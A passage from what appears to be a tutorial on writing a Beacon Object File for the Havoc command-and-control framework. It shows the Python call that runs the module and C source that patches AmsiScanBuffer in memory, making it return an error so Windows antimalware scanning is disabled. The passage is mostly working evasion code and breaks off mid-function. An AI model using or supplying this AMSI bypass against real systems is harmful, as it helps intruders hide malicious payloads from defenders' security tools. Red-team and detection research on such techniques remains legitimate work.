 And lastly, provide the information to Havoc on what to do to execute the module. In this case, our *BOF* will be located in the `amsipatch.o` file and its entry point will be at the `go` function.

```
demon.InlineExecute( TaskID, "go", f"amsipatch.o",b'', False)
```

### Creating the AMSI Patching BOF

With this out of the way, it's now time to go ahead and create our actual *BOF*. *BOF* creations can be rather hard if it's the first time you're encountering one. However, after a bit of trial and error, you'll be way on your way to creating your own *BOF's* in the future.

Let's take a look at the source of our *BOF*.

`amsipatch.c`

```
#include <windows.h>
#include <io.h>
#include <stdio.h>
#include <fcntl.h>
#include <evntprov.h>
#include "beacon.h"
#include "inlineExecute-Assembly.h"

/*Patch AMSI*/
BOOL patchAMSI()
{
	
#ifdef _M_AMD64
    unsigned char amsiPatch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };//x64
#elif defined(_M_IX86)
	unsigned char amsiPatch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };//x86
#endif

	HINSTANCE hinst = LoadLibrary("amsi.dll");
    void* pAddress = (PVOID)GetProcAddress(hinst, "AmsiScanBuffer");
	if(pAddress == NULL)
	{
		BeaconPrintf(CALLBACK_ERROR , "AmsiScanBuffer failed\n");
		return 0;
	}
	
	void* lpBaseAddress = pAddress;
	ULONG OldProtection, NewProtection;
	SIZE_T uSize = sizeof(amsiPatch);
	
	//Change memory protection via NTProtectVirtualMemory
	_NtProtectVirtualMemory NtProtectVirtualMemory = (_NtProtectVirtualMemory) GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtProtectVirtualMemory");
	NTSTATUS status = NtProtectVirtualMemory(NtCurrentProcess(), (PVOID)&lpBaseAddress, (PULONG)&uSize, PAGE_EXECUTE_READWRITE, &OldProtection);
	if (status != STATUS_SUCCESS) {
		BeaconPrintf(CALLBACK_ERROR , "[-] NtProtectVirtualMemory failed %d\n", status);
		return 0;
	}

	//Patch AMSI via NTWriteVirtualMemory
	_NtWriteVirtualMemory NtWriteVirtualMemory = (_NtWriteVirtualMemory) GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
	status = NtWriteVirtualMemory(NtCurrentProcess(), pAddress, (PVOID)amsiPatch, sizeof(amsiPatch), NULL);
	if (status != STATUS_SUCCESS) {
		BeaconPrintf(CALLBACK_ERROR , "[-] NtWriteVirtualMemory failed\n");
		return 0;
```